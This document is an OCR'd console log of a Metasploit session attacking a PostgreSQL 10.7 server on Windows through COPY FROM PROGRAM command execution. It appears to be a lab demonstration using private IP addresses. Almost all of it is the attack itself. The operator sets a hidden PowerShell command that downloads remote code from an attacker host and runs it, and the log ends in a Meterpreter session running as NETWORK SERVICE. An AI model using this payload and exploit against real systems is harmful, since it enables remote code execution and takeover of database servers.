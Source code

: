     
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set COMMAND powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring(\'http://192.168.0.18:8080/pUDD5sy8vTTD\');
    COMMAND => powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD')
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit

    [*] Started reverse TCP double handler on 192.168.0.18:4456
    [*] 192.168.0.24:5432 - 192.168.0.24:5432 - PostgreSQL 10.7, compiled by Visual C++ build 1800, 32-bit
    [*] 192.168.0.24:5432 - Exploiting...
    [+] 192.168.0.24:5432 - 192.168.0.24:5432 - msftesttable dropped successfully
    [+] 192.168.0.24:5432 - 192.168.0.24:5432 - msftesttable created successfully
    [*] 192.168.0.24     web_delivery - Delivering Payload
    [!] 192.168.0.24:5432 - 192.168.0.24:5432 - Unable to execute query: COPY msftesttable FROM PROGRAM 'powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring(''http://192.168.0.18:8080/pUDD5sy8vTTD'');';
    [*] 192.168.0.24:5432 - Exploit Failed
    [*] Exploit completed, but no session was created.
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) >
    [*] Sending stage (179779 bytes) to 192.168.0.24
    [*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.24:50154) at 2019-03-24 17:40:59 +0000

    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show sessions

    Active sessions
    ===============

      Id  Name  Type                     Information                                     Connection
      --  ----  ----                     -----------                                     ----------
      1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ DESKTOP-BHTT8OP  192.168.0.18:4444 -> 192.168.0.24:50154 (192.168.0.24)

    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > getuid
    Server username: NT AUTHORITY\NETWORK SERVICE
    
    
